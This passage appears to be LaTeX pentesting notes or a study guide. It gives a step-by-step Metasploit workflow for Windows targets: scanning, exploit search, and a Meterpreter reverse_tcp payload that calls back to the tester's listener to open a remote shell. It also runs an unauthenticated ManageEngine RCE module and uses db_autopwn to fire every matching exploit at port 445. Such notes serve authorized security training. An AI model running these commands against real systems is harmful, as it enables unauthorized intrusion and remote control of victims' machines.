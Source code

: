 The standard Metasploit exploitation workflow I follow for any Windows target:

\begin{termbox}
# 1. Start environment
service postgresql start && msfconsole
workspace -a target_name
setg RHOST target_ip
setg RHOSTS target_ip

# 2. Scan and save
db_nmap -sS -sV -o target_ip

# 3. Find relevant exploits
search type:exploit name:service_name
# Or by CVE:
search cve:2017 name:smb

# 4. Use and configure
use exploit/path/to/exploit
show options
set payload windows/meterpreter/reverse_tcp
set RHOST target_ip
set LHOST my_vpn_ip
set LPORT 4444

# 5. Run
exploit
# Or: run

# 6. Verify access
sysinfo
getuid

# 7. Review all sessions
sessions
sessions -i session_number    # Switch to session
\end{termbox}

\section{ManageEngine Exploitation}
\label{sec:manageengine}

ManageEngine is enterprise IT management software. Certain versions contain
vulnerabilities that allow unauthenticated remote code execution.

\begin{termbox}
# After Nessus identifies ManageEngine vulnerability
use exploit/windows/http/manageengine_connectionid_write
show options
set RHOST target_ip
run
sysinfo
\end{termbox}

\section{Autopwn --- Automated Exploitation}
\label{sec:autopwn}

 automatically matches open services and versions to known
exploits and attempts them. Useful for quick wins when time is limited.

\begin{termbox}
# One-time setup: download and install db_autopwn
cd ~/Downloads
sudo mv db_autopwn.rb /usr/share/metasploit-framework/plugins/

# Inside msfconsole
load db_autopwn
db_autopwn -p -t -PI 445    # Target port 445, run all matching exploits
\end{termbox}

